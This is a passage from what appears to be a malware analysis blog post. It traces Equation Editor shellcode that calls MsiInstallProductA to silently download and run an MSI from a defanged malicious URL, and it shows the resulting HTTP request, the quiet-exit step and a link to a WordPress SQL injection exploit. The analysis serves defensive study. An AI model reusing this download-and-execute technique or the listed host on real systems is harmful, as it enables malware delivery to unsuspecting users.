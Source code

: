 | Parameter     | Value                               |
| ------------- | ----------------------------------- |
| szPackagePath | <font style="color:red">hxxp://sbss[.]com[.]pk/gts/bd[.]msi</font> |
| szCommandLine | ITCAI=NOATSNLL                      |

![MsiInstallProductA](/images/8a97eaae60c7df18708323a91a1e8137088eb958336f83c25d41989064d0787e.png)
*Figure 1: Equation Editor Shellcode Executing [msi.MsiInstallProductA](https://docs.microsoft.com/en-us/windows/win32/api/msi/nf-msi-msiinstallproducta)*

This will result in the following traffic.

```http
GET /gts/bd.msi HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Windows Installer
Host: sbss.com.pk
```

This will execute the MSI installer silently on using the `eqnedt32.exe` process.

The site <font style="color:red">sbss[.]com[.]pk</font> appears to be a service that allows you to buy and sell property. It was created on Feb 15th, 2021 according to [PKNIC](https://pk6.pknic.net.pk/pk5/lookup.PK). Interestingly, the site is using Wordpress 5.8.3 at the time of this analysis. The previous version 5.8.2 had a major SQL Injection vulnerability [CVE-2022-21661](https://github.com/TAPESH-TEAM/CVE-2022-21661-WordPress-Core-5.8.2-WP_Query-SQL-Injection). It is not easily posible to determine what exactly happened to the website without access. It was either compromised or it was created by the threat actors themselves. This analysis will not go into the geopolitical aspects of tracing actors. We will save this for for another blog post.

Once completed, it will call *[kernel32.ExitProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess)* as to not arouse any suspicion from the user.
